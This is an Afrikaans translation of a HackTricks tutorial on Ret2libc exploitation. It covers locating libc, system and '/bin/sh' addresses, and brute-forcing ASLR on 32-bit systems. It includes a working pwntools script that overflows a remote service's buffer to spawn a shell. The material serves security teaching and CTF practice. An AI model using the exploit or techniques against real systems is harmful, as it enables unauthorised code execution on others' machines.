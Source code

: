 # Ret2lib

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## **Basiese Inligting**

Die essensie van **Ret2Libc** is om die uitvoervloei van 'n kwesbare program te herlei na 'n funksie binne 'n gedeelde biblioteek (bv. **system**, **execve**, **strcpy**) in plaas van die uitvoering van aanvaller-voorsiene shellkode op die stok. Die aanvaller stel 'n lading op wat die terugkeeradres op die stok wysig om na die gewenste biblioteekfunksie te wys, terwyl ook gereël word dat enige nodige argumente korrek opgestel word volgens die oproepkonvensie.

### **Voorbeeldstappe (vereenvoudig)**

* Kry die adres van die funksie om te roep (bv. system) en die bevel om te roep (bv. /bin/sh)
* Genereer 'n ROP-ketting om die eerste argument wat na die bevelstring wys, en die uitvoervloei na die funksie te stuur

## Vind die adresse

* Veronderstel dat die `libc` wat gebruik word die een van die huidige masjien is, kan jy vind waar dit in die geheue gelaai sal word met:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

As jy wil nagaan of die ASLR die adres van libc verander, kan jy dit doen:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* As jy die libc wat gebruik word ken, is dit ook moontlik om die verskuiwing na die `system`-funksie te vind met:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* As jy die libc wat gebruik word ken, is dit ook moontlik om die skuif na die string `/bin/sh` funksie te vind met:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Gebruik van gdb-peda / GEF

Met kennis van die gebruikte libc, is dit ook moontlik om Peda of GEF te gebruik om die adres van die **system**-funksie, die **exit**-funksie en die string **`/bin/sh`** te kry:
```bash
p system
p exit
find "/bin/sh"
```
### Gebruik /proc/\<PID>/maps

Indien die proses elke keer as jy met dit praat **kinders skep** (netwerk bediener), probeer om daardie lêer te **lees** (jy sal waarskynlik root toegang benodig).

Hier kan jy **presies vind waar die libc gelaai is** binne die proses en **waar dit gelaai gaan word** vir elke kind van die proses.

![](<../../../.gitbook/assets/image (850).png>)

In hierdie geval is dit gelaai by **0xb75dc000** (Dit sal die basis adres van libc wees)

## Onbekende libc

Dit mag moontlik wees dat jy **nie weet watter libc die binêre lê nie** (omdat dit dalk op 'n bediener geleë is waar jy geen toegang tot het nie). In daardie geval kan jy die kwesbaarheid misbruik om **sekere adresse te lek en te vind watter libc** biblioteek gebruik word:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

En jy kan 'n pwntools templaat hiervoor vind in:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### Ken libc met 2 verskuiwings

Kyk na die bladsy [https://libc.blukat.me/](https://libc.blukat.me/) en gebruik 'n **paar adresse** van funksies binne die libc om die **gebruikte weergawe** te bepaal.

## ASLR omseil in 32 bits

Hierdie brute-forcing aanvalle is **slegs nuttig vir 32bit stelsels**.

* Indien die aanval plaaslik is, kan jy probeer om die basis adres van libc te brute-force (nuttig vir 32bit stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Indien jy 'n afgeleë bediener aanval, kan jy probeer om die adres van die `libc`-funksie `usleep` te **brute-force**, met 10 as argument. As die bediener op 'n stadium **10 sekondes langer neem om te reageer**, het jy die adres van hierdie funksie gevind.

## Een Gadget

Voer 'n skaal uit deur net te spring na **een** spesifieke **adres** in libc:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Kodevoorbeeld

In hierdie voorbeeld is ASLR brute-force geïntegreer in die kode en die kwesbare binêre lêer is op 'n afgeleë bediener geleë:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Kodevoorbeeld

Kyk na die voorbeeld van:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## Ret-into-printf (of puts)

Dit maak dit moontlik om **inligting uit die proses te lek** deur `printf`/`puts` te roep met spesifieke data geplaas as 'n argument.

## Ret2printf

Dit beteken basies om 'n **Ret2lib te misbruik om dit te omskep in 'n `printf` formaat strings kwesbaarheid** deur die `ret2lib` te gebruik om printf te roep met die waardes om dit te benut (klink nutteloos maar moontlik):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Ander Voorbeelde & verwysings

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, gegewe 'n lek na die adres van 'n funksie in libc, deur een gadget te gebruik
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ASLR geaktiveer maar geen PIE, die eerste stap is om 'n oorvloed te vul tot die byte 0x00 van die kanarie om dan puts te roep en dit te lek. Met die kanarie word 'n ROP-gadget geskep om puts te roep om die adres van puts van die GOT te lek en dan 'n ROP-gadget om `system('/bin/sh')` te roep
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ASLR geaktiveer, geen kanarie, stap oorvloei in hoof van 'n kindfunksie. ROP-gadget om puts te roep om die adres van puts van die GOT te lek en dan 'n een gadget te roep.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bits, geen pie, geen kanarie, geen relro, nx. Gebruik skryffunksie om die adres van skryf (libc) te lek en roep een gadget.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* Gebruik 'n formaat string om die kanarie van die stok te lek en 'n buffer oorvloei om in te bel in die stelsel (dit is in die GOT) met die adres van `/bin/sh`.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32 bit, geen relro, geen kanarie, nx, pie. Misbruik 'n slegte indeksering om adresse van libc en heap van die stok te lek. Misbruik die buffer oorvloei om 'n ret2lib te doen wat `system('/bin/sh')` roep (die heap-adres is nodig om 'n kontrole te omseil).
